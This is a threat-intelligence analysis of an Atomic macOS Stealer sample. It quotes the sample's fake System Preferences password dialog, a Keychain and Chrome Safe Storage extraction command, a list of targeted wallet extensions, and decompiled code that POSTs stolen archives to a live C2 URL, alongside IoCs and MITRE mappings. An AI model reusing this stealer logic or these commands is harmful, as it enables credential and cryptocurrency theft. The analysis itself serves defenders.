### <span class="hl">TL;DR</span>

The sample is a Go-based variant of **Atomic macOS Stealer (AMOS)**, built as a
universal binary for Intel and Apple Silicon. After execution it obtains the
user's password through a fake authentication prompt, collects credentials,
cryptocurrency wallets, browser data and documents into an in-memory ZIP archive,
sends it via an HTTP POST request to *amos-malware[.]ru*, and terminates after
displaying a fake application error message.

Its targets are the Keychain system store, five desktop cryptocurrency wallets
(Electrum, Coinomi, Exodus, Atomic Wallet, Binance), 54 browser crypto
extensions, eight browsers (seven Chromium builds and Firefox), and files with
the extensions .txt, .rtf, .key, .wallet, .private, .secret on the
desktop and in the documents folder. Combined with the password obtained in the
first step, the exfiltrated archive allows offline decryption of the Keychain
container, the Chromium password databases, and wallet seed phrases.

### <span class="hl">Malware Details</span>

| Property | Value |
|---|---|
| File name | 0dbe84f5c41709e83626385867abcd07a736d3191e39a8f9900882f351c275f1 |
| MD5 | c5367f04e9645033db6cda859c29bee7 |
| SHA-256 | 0dbe84f5c41709e83626385867abcd07a736d3191e39a8f9900882f351c275f1 |
| SSDEEP | 98304:jJB2YeVg3JpEkpgy2905PfeYCdgxXFWUw4SjE/j5A1D/3JfYD:1BY6qZ05TGgxMbk1gLc |
| Size | 9.13 MB (9,576,562 bytes) |
| Format | Mach-O universal binary (x86_64 + arm64) |
| Entry point | 0x106afa0 |
| Language | Go |
| Symbols | not stripped |

### <span class="hl">Capabilities</span>

#### <span style="color:red">GUI phishing prompt</span>

Once a user executes the file, it displays a fake password prompt to obtain the system password.
Sample retrieves the username via `os.Getenv("USER")` and then checks whether the account is password-protected
using the `dscl` utility:

```
dscl /Local/Default -authonly <user> ""
```

If a password is set, a phishing window masquerading as System Preferences appears.

```applescript
display dialog "MacOS wants to access System Preferences
%s
Please enter your password." ¬
    with title "System Preferences" ¬
    with icon file "System:Library:CoreServices:CoreTypes.bundle:Contents:Resources:ToolbarAdvanced.icns" ¬
    default answer "" ¬
    giving up after 30 ¬
    with hidden answer
```



The entered password is verified with the same `dscl` call, this time with the
real value. If the password is incorrect, the dialog is shown again. The
validated password is written to the archive as a separate file named
**password-entered**. The archive is built in the process memory using
`archive/zip.NewWriter`, which receives a `bytes.Buffer`, file copying is
handled by the `main_write` function.



#### <span style="color:red">Keychain</span>

After obtaining the password, the sample attempts to steal the Keychain. Keychain is a macOS password management system that enables users to safely store sensitive data such as website logins, Wi-Fi passwords, credit card details, and more.
Physically it is stored in the file `login.keychain-db` in the user's profile
folder, encrypted with the account password, so the sample copies this file into
the archive and named it as `login-keychain`:

```c
  v2 = runtime_concatstring3(0, "/Users/", 7, main_user, *(&main_user + 1), "/Library/Keychains/login.keychain-db", 36);
  return main_write(v2, v3, "login-keychain", 14);
```

Together with the password, this grants full access to the contents of the store.

On systems where the account has no password, a different branch the dialog is not shown and the Keychain container is not copied, instead the
sample extracts the **Chrome Safe Storage key** from it. This is the key with which
Chromium encrypts its password and cookie databases. The result is saved to the
archive under the path `Chromium/Chrome/Local State`.

```
security 2>&1 > /dev/null find-generic-password -ga 'Chrome' | awk '{print $2}'
```



#### <span style="color:red">Cryptocurrency wallets</span>

After the credentials, the sample moves on to collecting cryptocurrency
wallets. Its targets are Electrum, Coinomi, Exodus, Atomic Wallet and Binance wallets.



For Electrum, Coinomi, Exodus and Atomic Wallet the sample takes entire contents of the
directory. It retrieves the name of each file and copies it into the archive under the path `Wallets/<wallet>/<file>`.



For Binance, the malware targets only a single specific file, app-store.json. It stores session data and account configuration:



#### <span style="color:red">Browser data</span>

The sample also targets data from Chrome, Brave, Edge, Vivaldi, Yandex, Opera,
Opera GX and Firefox.


**Chromium**



For each Chromium browser a recursive traversal of its directory tree is
performed using `filepath.Walk()` with the callback function
`main_GrabChrome_func1`, which locates and copies into the archive:

- **Cookies**
- **Login Data** with saved logins and passwords
- **Web Data** with autofill data
- **Local Extension Settings** - the directory containing installed extension data



Having found the `Local Extension Settings` directory with the extension data,
the sample reads its contents and compares directory name against a
built-in list of 54 crypto extension IDs, copying matches into the archive for
exfiltration.

List of targeted extensions:
| Extension ID | Wallet |
|---|---|
| acmacodkjbdgmoleebolmdjonilkdbch | Rabby Wallet |
| aeachknmefphepccionboohckonoeemg | Coin98 Wallet |
| afbcbjpbpfadlkmhmclhkeeodmamcflc | Math Wallet |
| aholpfdialjgjfhomihkjbmgjidlcdno | Exodus Web3 Wallet |
| aiifbnbfobpmeekipheeijimdpnlpgpp | Station Wallet |
| amkmjjmmflddogmhpjloimipbofnfjih | Wombat |
| apnehcjmnengpnmccpaibjmhhoadaico | CWallet |
| bcopgchhojmggmffilplmbdicgaihlkp | Hycon Lite Client |
| bfnaelmomeimhlpmgjnjophhpkkoljpa | Phantom |
| bocpokimicclpaiekenaeelehdjllofo | XDCPay |
| cgeeodpfagjceefieflmdfphplkenlfk | EVER Wallet |
| cihmoadaighcejopammfbmddcmdekcje | LeafWallet |
| cjelfplplebdjjenllpjcblmjkfcffne | Jaxx Liberty |
| cjmkndjhnagcfbpiemnkdpomccnjblmj | Finnie |
| cmndjbecilbocjfkibfbifhngkdmjgog | Swash |
| cnmamaachppnkjgnildpdmkaakejnhae | Auro |
| copjnifcecdedocejpaapepagaodgpbh | Freaks Axie |
| cphhlgmgameodnhkjdmkpanlelnlohao | NeoLine |
| dhgnlgphgchebgoemcjekedjjbifijid | Crypto Airdrops & Bounties |
| dkdedlpgdmmkkfjabffeganieamfklkm | Cyano |
| dmkamcknogkgcdfhhbddcghachkejeap | Keplr |
| efbglgofoippbgcjepnhiblaibcnclgk | Martian Wallet for Sui & Aptos |
| egjidjbpglichdcondbcbdnbeeppgdph | Trust Wallet |
| ffnbelfdoeiohenkjibnmadjiehjhajb | Yoroi |
| fhbohimaelbohpjbbldcngcnapndodjp | BinanceChain |
| fhilaheimglignddkjgofkcbgekhenbh | Oxygen |
| flpiciilemghbmfalicajoolhkkenfel | ICONex |
| fnjhmkhhmkbjkkabndcnnogagogbneec | Ronin |
| fnnegphlobjdpkhecapkijjdkgcjhkib | Harmony Wallet |
| hcflpincpppdclinealmandijcmnkbgn | KHC |
| hmeobnfnfcmdkdcmlblgagmfpfboieaf | XDEFI |
| hnfanknocfeofbddgcijnmhnfnkdnaad | Coinbase |
| hnhobjmcibchnmglfbldbfabcgaknlkj | Flint Wallet |
| hpglfhgfnhbgpjdenjgmdgoeiappafln | Guarda |
| ibnejdfjmmkpcnlpebklmnkoeoihofec | TronLink |
| imloifkgjagghnncjkhggdhalmcnfklk | Trezor Password Manager |
| jojhfeoedkpkglbfimdfabpdfjaoolaf | Polymesh |
| klnaejjgbibmhlephnhpmaofohgkpgkd | ZilPay |
| kncchdigobghenbbaddojjnnaogfppfj | iWallet |
| kpfopkelmapcoipemfendmdcghnegimn | Liquality |
| lodccjjbdhfakaekdiahmedfbieldgik | DAppPlay |
| mfhbebgoclkghebffdldpobeajmbecfk | Starcoin |
| mnfifefkajgofkcjkemidiaecocnkjeh | TezBox |
| nhnkbkgjikgcigadomkphalanndcapjk | CLW |
| nkbihfbeogaeaoehlefnkodbefgpgknn | MetaMask |
| nknhiehlklippafakaeklbeglecifhad | Nabox |
| nlbmnnijcnlegkjjpcfjclmcfggfefdm | MewCx |
| nlgbhdfgdhgbiamfdfmbikcdghidoadd | Byone |
| nphplpgoakhhjchkkhmiggakijnkhfnd | TON |
| ookjlbkiijinhpmnjffcofjonbfbgaoc | Temple |
| pdadjkfkgcafgbceimcpbkalnfnepbnk | KardiaChain |
| pnndplcbkakcplkjnolgbkdgjikjednm | Tron Wallet & Explorer |
| pocmplpaccanhmnllbbkpgfliimjljgo | Slope |
| ppdadbejkmjnefldpcdjhnkpbjkikoip | Oasis |


**Firefox**

For Firefox it targets `cookies.sqlite` and `formhistory.sqlite` from `~/Library/Application Support/Firefox/Profiles/`:



#### <span style="color:red">File collection</span>

The sample also targets files with the extensions
`.txt, .rtf, .key, .wallet, .private, .secret` from the desktop and the
documents folder.

```c
mw_filegrabber_exts = strings_Split(".txt,.rtf,.key,.wallet,.private,.secret", ",");
```

The search is performed across two directories, `~/Desktop/` and
`~/Documents/`. Files from the desktop go into the archive under the prefix
`FileGrabber/`, and those from the documents folder under `FileGrabber/doc_`.



#### <span style="color:red">System information collection</span>

The sample also collects data about the infected machine. It executes
`system_profiler SPHardwareDataType` command. This command returns data
about the device model, model identifier, processor type and core count, memory
size, serial number and hardware UUID. The command output is written to the
archive under the name `Sysinfo.txt`:



#### <span style="color:red">Exfiltration</span>

After collection, all the data is encoded in base64 and sent via an HTTP POST
request to the domain `amos-malware.ru` at the `sendlog` endpoint.

```c
v26       = archive_zip__ptr_Writer_Close(main_writer);
data      = bytes__ptr_Buffer_Bytes(main_buf);
data_bs64 = encoding_base64__ptr_Encoding_EncodeToString(encoding_base64_URLEncoding, ...);
//  ...[snip]...
return net_http_PostForm("http://amos-malware.ru/sendlog", 30, &v22);
```

Three fields are inserted into the request:

```c
runtime_mapassign_faststr(&RTYPE_net_url_Values, &v22, "BuildID", 7);   // main_buildid
runtime_mapassign_faststr(&RTYPE_net_url_Values, &v22, "user", 4);      // main_userlog
runtime_mapassign_faststr(&RTYPE_net_url_Values, &v22, "B64", 3);       // archive in base64
//  ...[snip]...
return net_http_PostForm("http://amos-malware.ru/sendlog", 30, &v22);
```



The `B64` field contains the entire archive of stolen data. The other two
fields are filled from global variables:

```
_main_buildid   = "UNICEF"
_main_userlog   = "Holocaust"
```

The C2 server was confirmed live. A test POST request received an `HTTP/1.1 200 OK` response from *34.41.139.193*, served by nginx.



After exfiltration, the sample displays a fake application error message. The user sees an ordinary launch failure and has no reason to look for outside activity. The sample terminates at this point.




### <span class="hl">Attribution</span>

Based on the combination of the domain name, functional overlap, and
infrastructure model, the sample is assessed with moderate confidence as
belonging to the **Atomic macOS Stealer (AMOS)** family.

The domain `amos-malware[.]ru` directly references the AMOS brand. The
collected data categories - Keychain, Chrome Safe Storage key, browser
credential databases, cryptocurrency wallet files, and a filegrabber targeting
the same six file extensions match the publicly documented AMOS capability set
precisely.

### <span class="hl">MITRE ATT&CK</span>

| Tactic | ID | Technique | Procedure |
|---|---|---|---|
| **Credential Access** | [T1056.002](https://attack.mitre.org/techniques/T1056/002/) | GUI Input Capture | The sample displays a fake System Preferences dialog via osascript, looping until the user enters a valid password |
| **Credential Access** | [T1555.001](https://attack.mitre.org/techniques/T1555/001/) | Keychain | The sample copies login.keychain-db and extracts the Chrome Safe Storage key via security find-generic-password |
| **Credential Access** | [T1555.003](https://attack.mitre.org/techniques/T1555/003/) | Web Browsers | The sample collects Login Data databases and the Chrome Safe Storage key from all Chromium-based browsers |
| **Credential Access** | [T1539](https://attack.mitre.org/techniques/T1539/) | Steal Web Session Cookie | The sample collects Cookies and cookies.sqlite from Chromium browsers and Firefox |
| **Credential Access** | [T1552.001](https://attack.mitre.org/techniques/T1552/001/) | Credentials In Files | The filegrabber targets files with extensions .key, .private, .secret, and .txt on the desktop and in documents |
| **Collection** | [T1005](https://attack.mitre.org/techniques/T1005/) | Data from Local System | The sample collects wallet files, browser databases, documents and system information from the local file system |
| **Collection** | [T1560.002](https://attack.mitre.org/techniques/T1560/002/) | Archive via Library | All collected data is written into an in-memory ZIP archive using archive/zip |
| **Collection** | [T1217](https://attack.mitre.org/techniques/T1217/) | Browser Information Discovery | The sample enumerates browser profiles via filepath.Walk and os.ReadDir |
| **Defense Evasion** | [T1036.005](https://attack.mitre.org/techniques/T1036/005/) | Match Legitimate Name or Location | The phishing dialog uses the System Preferences title and a genuine CoreTypes.bundle icon |
| **Discovery** | [T1082](https://attack.mitre.org/techniques/T1082/) | System Information Discovery | The sample executes system_profiler SPHardwareDataType to collect hardware details |
| **Discovery** | [T1033](https://attack.mitre.org/techniques/T1033/) | System Owner/User Discovery | The sample retrieves the current username via os.Getenv("USER") |
| **Execution** | [T1059.002](https://attack.mitre.org/techniques/T1059/002/) | AppleScript | The sample uses osascript to display the phishing prompt and the fake error dialog |
| **Execution** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Unix Shell | The sample executes bash -c to run security, dscl, and system_profiler |
| **Exfiltration** | [T1041](https://attack.mitre.org/techniques/T1041/) | Exfiltration Over C2 Channel | The ZIP archive is base64-encoded and sent via HTTP POST to amos-malware[.]ru/sendlog |
| **Exfiltration** | [T1132.001](https://attack.mitre.org/techniques/T1132/001/) | Standard Encoding | The archive is encoded with URL-safe Base64 before transmission |
| **Command and Control** | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | Web Protocols | The sample communicates with the C2 server over HTTP using net/http PostForm |
### <span class="hl">IoC</span>

| Type | Value |
|---|---|
| SHA-256 | 0dbe84f5c41709e83626385867abcd07a736d3191e39a8f9900882f351c275f1 |
| MD5 |c5367f04e9645033db6cda859c29bee7 |
| Domain | amos-malware[.]ru |
| URL |http://amos-malware[.]ru/sendlog |
| IP  | 34.41.139.193 |
| Request field | BuildID=UNICEF |
| Request field | user=Holocaust |
| Command | security 2>&1 > /dev/null find-generic-password -ga 'Chrome' \| awk '{print $2}' |
| Command | system_profiler SPHardwareDataType |


### <span class="hl">Used Tools</span>

| Tool | Purpose |
|---|---|
| IDA | Static analysis and decompilation of the Mach-O binary |
| GoReSym | Recovery of Go symbols, type information and function names |
| XMachOViewer | Inspection of the Mach-O structure, architectures and sections |
| Burp Suite | Intercepting and replaying requests to the C2 endpoint |
| Python | Extracting the crypto extension ID list from the binary |
| Tor | Anonymized probing of the C2 server |
